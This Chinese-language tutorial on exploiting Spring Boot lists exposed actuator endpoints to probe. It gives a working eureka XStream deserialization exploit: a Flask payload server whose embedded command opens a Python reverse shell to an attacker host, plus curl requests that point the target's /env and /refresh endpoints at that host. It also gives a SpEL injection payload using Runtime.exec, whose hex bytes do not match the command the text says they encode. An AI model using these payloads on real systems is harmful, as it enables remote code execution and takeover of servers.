





# Spring boot相关漏洞利用（1）

Spring boot 是 Spring 的一套快速配置脚手架，可以基于spring boot 快速开发单个微服务，Spring Boot，看名字就知道是Spring的引导，就是用于启动Spring的，使得Spring的学习和使用变得快速无痛。不仅适合替换原有的工程结构，更适合微服务开发。

Spring Cloud基于Spring Boot，为微服务体系开发中的架构问题，提供了一整套的解决方案——服务注册与发现，服务消费，服务保护与熔断，网关，分布式调用追踪，分布式配置管理等。

## 信息泄露

```
常见信息泄露接口

/api-docs
 /v2/api-docs
 /swagger-ui.html

/api.html
 /sw/swagger-ui.html
 /api/swagger-ui.html
 /template/swagger-ui.html
 /spring-security-rest/api/swagger-ui.html
 /spring-security-oauth-resource/swagger-ui.html

/mappings
 /actuator/mappings
 /metrics
 /actuator/metrics
 /beans
 /actuator/beans
 /configprops
 /actuator/configprops

配置不当暴露路由

/actuator
 /auditevents
 /autoconfig
 /beans
 /caches
 /conditions
 /configprops
 /docs
 /dump
 /env
 /flyway
 /health
 /heapdump
 /httptrace
 /info
 /intergrationgraph
 /jolokia
 /logfile
 /loggers
 /liquibase
 /metrics
 /mappings
 /prometheus
 /refresh
 /scheduledtasks
 /sessions
 /shutdown
 /trace
 /threaddump
 /actuator/auditevents
 /actuator/beans
 /actuator/health
 /actuator/conditions
 /actuator/configprops
 /actuator/env
 /actuator/info
 /actuator/loggers
 /actuator/heapdump
 /actuator/threaddump
 /actuator/metrics
 /actuator/scheduledtasks
 /actuator/httptrace
 /actuator/mappings
 /actuator/jolokia
 /actuator/hystrix.stream
```

**重点接口**

- /env /actuator/env

  GET 请求 /env 会泄露环境变量信息，

  

同时有一定概率可以通过 POST 请求 /env 接口设置一些属性，触发相关 RCE 漏洞。

下图是eureka xstream deserialization 实现RCE



- /jolokia

通过 /jolokia/list 接口寻找可以利用的 MBean，触发相关 RCE 漏洞

- /trace

一些 http 请求包访问跟踪信息，有可能发现有效的 cookie 信息


## eureka xstream deserialization 实现RCE

**利用条件**

- 可以 POST     请求目标网站的 /env 接口设置属性
- 可以 POST     请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
- 目标使用的 eureka-client <     1.8.7（通常包含在 spring-cloud-starter-netflix-eureka-client 依赖中）
- 目标可以请求攻击者的     HTTP 服务器（请求可出外网)

**利用步骤**

（1）在VPS创建flask_xstream.py，使用flask返回payload，要执行的命令放置command标签内。

```python
#!/usr/bin/env python
# coding: utf-8
# -**- Author: LandGrey -**-

from flask import Flask, Response

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=4447)
```

（2）在vps上运行flak_xtream.py


(3)nc监听command标签内的端口


（3）分别发两次POST数据包

> curl "http://targetIp:60689/env" -d "eureka.client.serviceUrl.defaultZone=http://vpsIp:4447/xstream"
>
> curl "http://targetIp:60689/refresh" -d ""


（4）成功执行命令。



# Spring Boot SpEL表达式注入

Spring Boot 框架Whitelabel Error Page SpEL注入的原因就是系统报错页面把用户的输入当做了表达式来执行

**漏洞原理**

1. spring boot     处理参数值出错，流程进入 org.springframework.util.PropertyPlaceholderHelper 类中
2. 此时 URL     中的参数值会用 parseStringValue 方法进行递归解析
3. 其中 ${} 包围的内容都会被 org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration 类的 resolvePlaceholder 方法当作     SpEL 表达式被解析执行，造成 RCE 漏洞

**利用条件**

- spring boot     1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot     默认错误页面的接口及参数名

**利用方法**

（1）找到一个正常传参触发错误的地方。比如发现访问 /article?id=xxx ，页面会报状态码为 500 的错误： Whitelabel Error Page，则后续 payload 都将会在参数 id 处尝试。

（2）输入 /article?id=${7*7} ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。



（3）格式转换以便于执行任意代码

```python
# coding: utf-8
result = ""
target = 'curl http://vpsIp:4445'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
 
```

插入生成的十六进制码

```
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```





**参考**

https://github.com/LandGrey/SpringBootVulExploit